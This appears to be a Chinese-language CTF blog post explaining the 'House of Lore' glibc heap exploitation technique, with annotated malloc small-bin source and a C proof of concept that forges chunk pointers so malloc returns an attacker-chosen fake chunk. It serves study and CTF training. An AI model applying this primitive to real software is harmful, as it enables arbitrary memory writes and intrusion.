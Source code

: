 
title: House of Lore

date: 2018-04-16 08:15:13

categories:
- CTF
- House of Lore


## 概述

House of Lore 攻击与 Glibc 堆管理中的的 Small Bin 的机制紧密相关。

House of Lore 可以实现分配任意指定位置的 chunk，从而修改任意地址的内存。

House of Lore 利用的前提是需要控制 Small Bin Chunk 的 bk 指针，并且控制指定位置 chunk 的 fd 指针。

这项攻击基本上是对于small bin和large bin的伪造堆块攻击. 然而, 因为约在2007年(对`fd_nextsize`和`bk_nextsize`的引入)一个新增的对large bin的保护, 该项技术变得不再可行。这里我们只考虑small bin的情形. 首先, 一个small chunk会被放置在small bin中, 它的`bk`指针会被覆写成指向一个伪造的small chunk. **要注意的是在small bin的情况下, 插入操作发生在`首部`而移除操作发生在`尾部`**. 一次malloc调用将首先移除bin中理应存在的堆块从而致使我们的伪堆块到了bin的`尾部`. 再下一次malloc调用就会返回攻击者的堆块.

. **要注意的是在small bin的情况下, 插入操作发生在`首部`而移除操作发生在`尾部`**. 

## 基本原理

如果在 malloc 的时候，申请的内存块在 small bin 范围内，那么执行的流程如下

```C
    /*
       If a small request, check regular bin.  Since these "smallbins"
       hold one size each, no searching within bins is necessary.
       (For a large request, we need to wait until unsorted chunks are
       processed to find best fit. But for small ones, fits are exact
       anyway, so we can check now, which is faster.)
     */

    if (in_smallbin_range(nb)) {
        // 获取 small bin 的索引
        idx = smallbin_index(nb);
        // 获取对应 small bin 中的 chunk 指针
        bin = bin_at(av, idx);
        // 先执行 victim= last(bin)，获取 small bin 的最后一个 chunk
        // 如果 victim = bin ，那说明该 bin 为空。
        // 如果不相等，那么会有两种情况
        if ((victim = last(bin)) != bin) {
            // 第一种情况，small bin 还没有初始化。
            if (victim == 0) /* initialization check */
                // 执行初始化，将 fast bins 中的 chunk 进行合并
                malloc_consolidate(av);
            // 第二种情况，small bin 中存在空闲的 chunk
            else {
                // 获取 small bin 中倒数第二个 chunk 。
                bck = victim->bk;
                // 检查 bck->fd 是不是 victim，防止伪造
                if (__glibc_unlikely(bck->fd != victim)) {
                    errstr = "malloc(): smallbin double linked list corrupted";
                    goto errout;
                }
                // 设置 victim 对应的 inuse 位
                set_inuse_bit_at_offset(victim, nb);
                // 修改 small bin 链表，将 small bin 的最后一个 chunk 取出来
                bin->bk = bck;
                bck->fd = bin;
                // 如果不是 main_arena，设置对应的标志
                if (av != &main_arena) set_non_main_arena(victim);
                // 细致的检查
                check_malloced_chunk(av, victim, nb);
                // 将申请到的 chunk 转化为对应的 mem 状态
                void *p = chunk2mem(victim);
                // 如果设置了 perturb_type , 则将获取到的chunk初始化为 perturb_type ^ 0xff
                alloc_perturb(p, bytes);
                return p;
            }
        }
    }
```

从下面的这部分我们可以看出

```c
                // 获取 small bin 中倒数第二个 chunk 。
                bck = victim->bk;
                // 检查 bck->fd 是不是 victim，防止伪造
                if (__glibc_unlikely(bck->fd != victim)) {
                    errstr = "malloc(): smallbin double linked list corrupted";
                    goto errout;
                }
                // 设置 victim 对应的 inuse 位
                set_inuse_bit_at_offset(victim, nb);
                // 修改 small bin 链表，将 small bin 的最后一个 chunk 取出来
                bin->bk = bck;
                bck->fd = bin;
```

如果我们可以修改 small bin 的最后一个 chunk 的 bk 为我们指定内存地址的fake chunk，并且同时满足之后的 bck->fd != victim 的检测，那么我们就可以使得 small bin 的 bk 恰好为我们构造的 fake chunk。也就是说，当下一次申请 small bin 的时候，我们就会分配到指定位置的 fake chunk。

## 例子

 [house_of_lore](https://heap-exploitation.dhavalkapil.com/assets/files/house_of_lore.c) 为例

```c
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

struct small_chunk {
  size_t prev_size;
  size_t size;
  struct small_chunk *fd;
  struct small_chunk *bk;
  char buf[0x64];               // chunk falls in smallbin size range
};

int main() {
  struct small_chunk fake_chunk, another_fake_chunk;
  struct small_chunk *real_chunk;
  unsigned long long *ptr, *victim;
  int len;

  printf("%p\n", &fake_chunk);

  len = sizeof(struct small_chunk);

  // Grab two small chunk and free the first one
  // This chunk will go into unsorted bin
  ptr = malloc(len);
  printf("%p\n", ptr);
  // The second malloc can be of random size. We just want that
  // the first chunk does not merge with the top chunk on freeing
  printf("%p\n", malloc(len));
  free(ptr);

  real_chunk = (struct small_chunk *)(ptr - 2);
  printf("%p\n", real_chunk);

  // Grab another chunk with greater size so as to prevent getting back
  // the same one. Also, the previous chunk will now go from unsorted to
  // small bin
  printf("%p\n", malloc(len + 0x10));

  // Make the real small chunk's bk pointer point to &fake_chunk
  // This will insert the fake chunk in the smallbin
  real_chunk->bk = &fake_chunk;
  // and fake_chunk's fd point to the small chunk
  // This will ensure that 'victim->bk->fd == victim' for the real chunk
  fake_chunk.fd = real_chunk;

  // We also need this 'victim->bk->fd == victim' test to pass for fake chunk
  fake_chunk.bk = &another_fake_chunk;
  another_fake_chunk.fd = &fake_chunk;

  // Remove the real chunk by a standard call to malloc
  printf("%p\n", malloc(len));

  // Next malloc for that size will return the fake chunk
  victim = malloc(len);
  printf("%p\n", victim);

  return 0;
}
```

需要特别小心以确保每一个将要使用malloc返回的small chunk都满足`victim->bk->fd == victim`, 以通过安全检查 ”malloc(): smallbin double linked list corrupted” 。此外也添加了额外的’malloc’调用以确保:

1. 第一个堆块在释放时会添加到unsorted bin而不是和top chunk合并
2. 第一个堆块会进入到small bin中，因为它不满足大小为`len + 0x10`的malloc申请.

## 参考

[House of Lore](https://ctf-wiki.github.io/ctf-wiki/pwn/heap/house_of_lore/)

https://vancir.com/2017/08/12/house-of-lore/

